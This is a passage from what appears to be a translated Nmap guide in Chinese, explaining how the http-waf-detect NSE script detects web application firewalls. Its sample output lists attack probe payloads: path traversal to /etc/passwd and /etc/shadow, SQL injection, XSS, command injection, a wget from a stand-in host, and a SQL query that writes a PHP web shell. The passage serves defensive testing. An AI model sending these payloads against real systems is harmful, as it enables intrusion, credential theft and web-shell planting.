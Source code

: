 ## 工作原理...

参数`-p80 --script http-waf-detect`在发现运行在端口 80 上的 Web 服务器时启动 NSE 脚本`http-waf-detect`。我开发了`http-waf-detect`来确定是否通过 Web 应用防火墙（WAF）或入侵防御系统（IPS）过滤了带有恶意有效负载的 HTTP 请求。

该脚本通过保存安全的 HTTP`GET`请求的状态码和可选的页面主体，并将其与包含最常见 Web 应用程序漏洞的攻击载荷的请求进行比较。因为每个恶意载荷都存储在一个奇数变量名中，所以它几乎不可能被 Web 应用程序使用，只有数据包过滤系统会做出反应并改变任何返回的状态码，可能会收到 HTTP 状态码 403（禁止）或页面内容。

## 还有更多...

要检测响应主体的变化，请使用参数`http-waf-detect.detectBodyChanges`。我建议在处理动态内容较少的页面时启用它：

```
$ nmap -p80 --script http-waf-detect --script-args="http-waf-detect.detectBodyChanges" <target>

```

要包含更多的攻击载荷，请使用脚本参数`http-waf-detect.aggro`。这种模式会生成更多的 HTTP 请求，但也可能触发更多的产品：

```
$ nmap -p80 --script http-waf-detect --script-args="http-waf-detect.aggro" <target>
Initiating NSE at 23:03
NSE: http-waf-detect: Requesting URI /abc.php
NSE: Final http cache size (1160 bytes) of max size of 1000000
NSE: Probing with payload:?p4yl04d=../../../../../../../../../../../../../../../../../etc/passwd
NSE: Probing with payload:?p4yl04d2=1%20UNION%20ALL%20SELECT%201,2,3,table_name%20FROM%20information_schema.tables
NSE: Probing with payload:?p4yl04d3=<script>alert(document.cookie)</script>
NSE: Probing with payload:?p4yl04d=cat%20/etc/shadow
NSE: Probing with payload:?p4yl04d=id;uname%20-a
NSE: Probing with payload:?p4yl04d=<?php%20phpinfo();%20?>
NSE: Probing with payload:?p4yl04d='%20OR%20'A'='A
NSE: Probing with payload:?p4yl04d=http://google.com
NSE: Probing with payload:?p4yl04d=http://evilsite.com/evilfile.php
NSE: Probing with payload:?p4yl04d=cat%20/etc/passwd
NSE: Probing with payload:?p4yl04d=ping%20google.com
NSE: Probing with payload:?p4yl04d=hostname%00
NSE: Probing with payload:?p4yl04d=<img%20src='x'%20onerror=alert(document.cookie)%20/>
NSE: Probing with payload:?p4yl04d=wget%20http://ev1l.com/xpl01t.txt
NSE: Probing with payload:?p4yl04d=UNION%20SELECT%20'<?%20system($_GET['command']);%20?>',2,3%20INTO%20OUTFILE%20'/var/www/w3bsh3ll.php'--

```

要为探测设置不同的 URI，请设置参数`http-waf-detect.uri`：

```
$ nmap -p80 --script http-waf-detect --script-args http-waf-detect.uri=/webapp/ <target>

```

### HTTP 用户代理

有一些数据包过滤产品会阻止使用 Nmap 的默认 HTTP 用户代理发出的请求。您可以通过设置参数`http.useragent`来使用不同的用户代理值：
